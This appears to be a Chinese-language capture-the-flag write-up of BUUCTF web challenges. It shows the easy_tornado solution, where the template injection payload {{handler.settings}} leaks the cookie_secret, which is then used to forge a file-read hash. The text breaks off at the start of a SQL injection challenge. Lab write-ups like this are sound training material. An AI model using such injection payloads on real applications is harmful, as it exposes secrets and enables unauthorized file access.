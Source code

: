 ```yaml
---
title: BUUCTF Web Writeup Part1 <简单部分>
categories:
  - 平台Writeup
tags:
  - ctf
  - Web
  - Writeup
index_img: /img/used/prac.jpg
date: 2020-01-14 19:25:33
---
```


# BUUCTF Web Part1

简单部分按照BUUCTF的分数进行划分，1分题目认为是简单题目。一共有32题

## [护网杯 2018]easy_tornado（模板

进去给了三个页面，并提示flag`flag in /fllllllllllllag`。

显然要找到任意文件读取处，又在hint中看到`md5(cookie_secret+md5(filename))`。url有一个filehash，应该就是这个算法。

还有一个错误页面，url有msg=ERROR，修改了一下发现页面也改变，猜测有Render，尝试模板注入。

输入

```
{{handler.settings}}
```

可以查看tornado的一些参数，包括cookie_secret。

```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '5e8306b3-7ae1-45b4-9116-d0fe4c02eacd'} 
```

然后读取文件就可以了。

```
db6fc544-8be8-4438-9c50-638366f85ec33bf9f6cf685a6dd8defadabfb41a03a1
做个md5
```

`flag{44fc3be2-b981-4e3e-addb-65fd6fca1759}`

## [CISCN2019 华北赛区 Day2 Web1]Hack World

给了个sql让你注入。过滤了以下内容：

```
空格 and # 等等
```

